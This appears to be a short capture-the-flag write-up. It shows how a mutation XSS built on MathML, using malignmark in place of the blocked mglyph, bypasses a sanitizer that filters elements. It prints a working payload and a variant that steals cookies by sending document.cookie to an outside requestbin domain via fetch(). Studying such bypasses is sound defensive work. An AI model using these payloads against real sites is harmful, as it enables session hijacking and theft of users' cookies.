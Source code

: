 Mutant
============

The JavaScript includes some code that removes elements with length 6 or 8, as well as removing attributes from elements.

Because it uses a template innerHTML to check the elements in the payload, we can use a mutation XSS to bypass it as described [here](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/).

The issue with the payload at that link is that the payload uses `mglyph` which is blocked by the waf. However, it also tells us that `malignmark` is an alternative for `mglyph`, so we can use that instead.

```html
<form><math><mtext></form><form><malignmark><style></math><img src onerror=alert(1)>
```

We can then replace the JavaScript with a cookie stealer to exfiltrate the cookie back to our domain, for example:

```html
<form><math><mtext></form><form><malignmark><style></math><img src=1 onerror="fetch(`https://myrequestbin.com/${document.cookie}`)">
```

